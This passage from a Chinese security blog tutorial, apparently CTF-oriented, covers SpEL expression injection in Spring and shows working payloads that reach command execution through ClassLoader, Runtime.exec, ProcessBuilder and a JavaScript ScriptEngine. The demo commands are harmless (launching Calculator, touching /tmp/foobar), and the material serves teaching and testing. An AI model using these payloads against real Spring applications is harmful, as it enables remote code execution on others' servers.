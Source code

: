 由于需要调用到静态方法所以还是需要用到`T()`操作  
```java  
T(ClassLoader).getSystemClassLoader().loadClass(&#34;java.lang.Runtime&#34;).getRuntime().exec(&#34;open /System/Applications/Calculator.app&#34;)  
```  
记载ProcessBuilder执行  
```java  
T(ClassLoader).getSystemClassLoader().loadClass(&#34;java.lang.ProcessBuilder&#34;).getConstructors()[1].newInstance(new String[]{&#34;open&#34;,&#34;/System/Applications/Calculator.app&#34;}).start()  
```  
#### 通过其他类获取AppClassLoader  
使用SpEL的话一定存在`org.springframework`的包，这个包下有许许多多的类，而这些类的`classloader`就是`AppClassLoader`  
比如 `org.springframework.expression.Expression` 类  
`System.out.println( org.springframework.expression.Expression.class.getClassLoader());`  
获取AppClassLoader的方法`T(org.springframework.expression.Expression).getClass().getClassLoader()`  
假设使用 thyemleaf 的话会有`org.thymeleaf.context.AbstractEngineContext`  
`T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()`  
假设有一个自定义的  
`T(com.ctf.controller.Demo).getClass().getClassLoader()`  
#### 通过内置对象加载`URLClassLoader`  
```java  
{request.getClass().getClassLoader().loadClass(\&#34;java.lang.Runtime\&#34;).getMethod(\&#34;getRuntime\&#34;).invoke(null).exec(\&#34;touch/tmp/foobar\&#34;)}  
  
username[#this.getClass().forName(&#34;javax.script.ScriptEngineManager&#34;).newInstance().getEngineByName(&#34;js&#34;).eval(&#34;java.lang.Runtime.getRuntime().exec(&#39;xterm&#39;)&#34;)]=asdf  
```  
request、response 对象是 Web 项目的常客,通过第一个 poc 测试发现在 Web 项目如果引入了 SpEL 的依赖，那么这两个对象会自动被注册进去。  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/el%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/  

